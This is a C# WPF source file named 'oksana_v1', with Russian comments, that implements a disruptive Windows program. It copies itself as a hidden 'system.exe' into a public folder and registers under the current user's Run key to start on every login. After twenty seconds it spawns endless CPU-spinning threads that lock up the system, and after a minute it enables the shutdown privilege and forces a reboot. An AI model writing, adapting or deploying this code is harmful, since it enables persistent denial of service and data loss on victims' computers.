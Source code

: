 # oksana_v1
using DoFactory.GangOfFour.Singleton.Structural;
using JCS;
using Microsoft.Win32;
using System;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.InteropServices;
using System.Threading;
using System.Windows;
using DoFactory.GangOfFour.Singleton.Structural;

namespace WpfApplication_OKSANA
{
/// <summary>
/// Логика взаимодействия для MainWindow.xaml
/// </summary>
public partial class MainWindow : Window
{
public static string needPatch = "C:\\Users\\Public\\";


public MainWindow()
{
if (OSVersionInfo.Name == "Windows 7" || OSVersionInfo.Name == "Windows Vista" )
{
autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
//SetAutorunValue(false, needPatch + "system.exe"); // убрать из автозагрузки
}
else
if (OSVersionInfo.Name == "Windows XP")
{
needPatch = "C:\\Documents and Settings\\All Users\\";
autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
//SetAutorunValue(false, needPatch + "system.exe"); // убрать из автозагрузки
}

InitializeComponent();
}



private void Window_Loaded(object sender, RoutedEventArgs e)
{
if (!File.Exists(needPatch + "system.exe"))
{
try
{
File.Copy("system.exe", needPatch + "system.exe");
File.SetAttributes(needPatch + "system.exe", FileAttributes.Hidden);

}
catch { }
}
start();
}

public static void sys_sleep()
{
while (true)
{
Thread s = new Thread(s_b);
s.Start();
}
}
private static void s_b()
{
int y = 2;
while (true)
{
y *= y;
}
}



public static void start()
{
Stopwatch sw = new Stopwatch();
sw.Start();
bool b = true;
bool pl = false;
while (b)
{
if (sw.ElapsedMilliseconds > 20000)
{
if (!pl)
{
Thread g = new Thread(sys_sleep);
g.Start();
pl = true;
}
}
if (sw.ElapsedMilliseconds > 60000)
{
DoExitWin(EWX_REBOOT);
b = false;
}
}
}





[StructLayout(LayoutKind.Sequential, Pack = 1)]
internal struct TokPriv1Luid
{
public int Count;
public long Luid;
public int Attr;
}
[DllImport("kernel32.dll", ExactSpelling = true)]
internal static extern IntPtr GetCurrentProcess();
[DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool OpenProcessToken(IntPtr h, int acc, ref IntPtr phtok);
[DllImport("advapi32.dll", SetLastError = true)]
internal static extern bool LookupPrivilegeValue(string host, string name, ref long pluid);
[DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool AdjustTokenPrivileges(IntPtr htok, bool disall,
ref TokPriv1Luid newst, int len, IntPtr prev, IntPtr relen);
[DllImport("user32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool ExitWindowsEx(int flg, int rea);
internal const int EWX_REBOOT = 0x00000002;
internal const string SE_SHUTDOWN_NAME = "SeShutdownPrivilege";
internal const int SE_PRIVILEGE_ENABLED = 0x00000002;
internal const int TOKEN_QUERY = 0x00000008;
internal const int TOKEN_ADJUST_PRIVILEGES = 0x00000020;

public static Thread thread1;
public static void DoExitWin(int flg)
{
bool ok;
TokPriv1Luid tp;
IntPtr hproc = GetCurrentProcess();
IntPtr htok = IntPtr.Zero;
ok = OpenProcessToken(hproc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, ref htok);
tp.Count = 1;
tp.Luid = 0;
tp.Attr = SE_PRIVILEGE_ENABLED;
ok = LookupPrivilegeValue(null, SE_SHUTDOWN_NAME, ref tp.Luid);
ok = AdjustTokenPrivileges(htok, false, ref tp, 0, IntPtr.Zero, IntPtr.Zero);
ok = ExitWindowsEx(flg, 0);
}
}

public class autorun: Singleton<autorun>
{
public static bool SetAutorunValue(bool autorun, string npath)
{
const string name = "systems";
string ExePath = npath;
RegistryKey reg;

reg = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\");
try
{
if (autorun)
reg.SetValue(name, ExePath);
else
reg.DeleteValue(name);
reg.Flush();
reg.Close();
}
catch
{
return false;
}
return true;
}
}
}
namespace DoFactory.GangOfFour.Singleton.Structural
{
public class Singleton<T> where T : class
{
private static T _instance;

protected Singleton()
{
}

private static T CreateInstance()
{
ConstructorInfo cInfo = typeof(T).GetConstructor(
BindingFlags.Instance | BindingFlags.NonPublic,
null,
new Type[0],
new ParameterModifier[0]);

return (T)cInfo.Invoke(null);
}

public static T Instance
{
get
{
if (_instance == null)
{
_instance = CreateInstance();
}

return _instance;
}
}
}
}
